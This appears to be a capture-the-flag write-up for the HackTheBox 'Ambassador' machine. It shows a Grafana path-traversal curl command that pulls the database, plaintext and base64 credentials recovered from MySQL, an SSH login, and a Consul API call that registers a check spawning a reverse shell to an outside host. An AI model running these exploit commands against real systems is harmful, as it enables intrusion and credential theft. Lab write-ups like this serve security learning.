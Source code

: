 ### Writeup and references
* https://malw0re.gitbook.io/notes/hackthebox/ambassador
* https://discuss.hashicorp.com/t/hcsec-2020-04-consuls-health-check-api-endpoints-may-disclose-information/18087/1
* https://developer.hashicorp.com/consul/api-docs/api-structure
* https://gist.github.com/A1vinSmith/b394bbafa7a7c726e7fe78ccdfc421c3
* https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API
* https://github.com/owalid/consul-rce

### Grafana on 3000
##### Searchsploit
It works but not promote to shell.

##### Curl
```txt
--path-as-is
              Tell curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but with this option set you tell it not
              to do that.

              Providing --path-as-is multiple times has no extra effect.  Disable it again with --no-path-as-is.

              Example:
               curl --path-as-is https://example.com/../../etc/passwd

              See also --request-target. Added in 7.42.0.
```

```bash
curl --path-as-is "http://10.129.228.56:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
```

##### Open it with SQLite
In table `data_source`. Found the user creds

grafana:dontStandSoCloseToMe63221!

### Mysql 3306
```bash
mysql -h $IP -u grafana -p
```
A little bit slow

```bash mysql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.358 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.162 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.143 sec)
```

base64 anEnglishManInNewYork027468

### SSH
```bash
ssh developer@$IP
```

### Enum
The Hashicorp Consul services API allows attackers to execute arbitrary commands on the target endpoint.

curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" \
	-X PUT \
	-H "Content-Type: application/json" \
	-d '{"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.16.11/80 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "alvinID01", "Name": "alvinName01", "Port": 80}' \
	http://127.0.0.1:8500/v1/agent/service/register

### Other writeups
* https://0xdf.gitlab.io/2023/01/28/htb-ambassador.html#shell-as-root